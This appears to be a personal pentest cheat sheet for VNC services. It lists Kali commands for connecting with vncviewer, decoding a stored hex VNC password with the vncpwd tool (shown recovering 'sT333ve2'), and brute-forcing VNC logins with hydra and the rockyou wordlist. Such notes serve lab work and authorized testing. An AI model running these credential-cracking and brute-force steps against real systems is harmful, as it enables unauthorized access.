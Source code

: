 ### **Checks**

- [ ] check for easy VNC passwords
- [ ] check for exploits for VNC version
- [ ] brute force VNC password

#### Accessing VNC

```bash - kali
vncviewer $TARGET
```
- use `SHIFT` + `CONTROL` + `ALT` + `DEL` to unlock screen
```bash - kali
password
```
#### Cracking hex VNC password
`"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f`
```bash - kali
git clone https://github.com/jeroennijhof/vncpwd
```
```bash - kali
cd vncpwd
```
```bash - kali
sudo make
```
```bash - kali
./vncpwd <(echo '6bcf2a4b6e5aca0f' | xxd -r -p)
```
`Password: sT333ve2`
#### Attacking VNC
https://www.hackingarticles.in/password-crackingvnc/
```bash - kali
hydra -s 5900 -P /usr/share/wordlists/rockyou.txt -t 16 $TARGET vnc -f
```
>
password